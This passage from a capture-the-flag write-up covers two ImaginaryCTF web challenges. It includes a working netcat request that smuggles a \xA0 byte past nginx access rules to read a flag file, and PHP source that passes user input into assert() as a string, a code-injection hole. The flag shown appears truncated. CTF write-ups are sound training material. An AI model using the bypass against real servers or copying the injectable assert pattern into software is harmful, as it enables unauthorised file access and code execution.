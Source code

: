 Accessing, `flag.txt` or `index.html` will give `404 Error`

```bash 
└─$ curl http://readme.chal.imaginaryctf.org/index.html
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
```

How can we bypass this? Atleast we know the version of the NGINX used is `1.22.1`. Searching for `request_filename` in the NGINX configuration file led us to this [Hacktricks : Proxy Protections Bypass](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass) article.

![image](https://hackmd.io/_uploads/rJXQULY_A.png)

Either using **Burp** or use a simple netcat method as shown below to get the flag.

```bash
└─$ echo -e "GET /flag.txt\xA0\x0aHTTP/1.1" | nc readme.chal.imaginaryctf.org 80            
ictf{path_normalization_to_the_res
```

Flag: `ictf{path_normalization_to_the_res`

### journal

![image](https://hackmd.io/_uploads/HkejP8t_R.png)

When I read the `index.php`, there is one line that catch my eyes

```php 
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  // This line look suspicious?
  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";
```
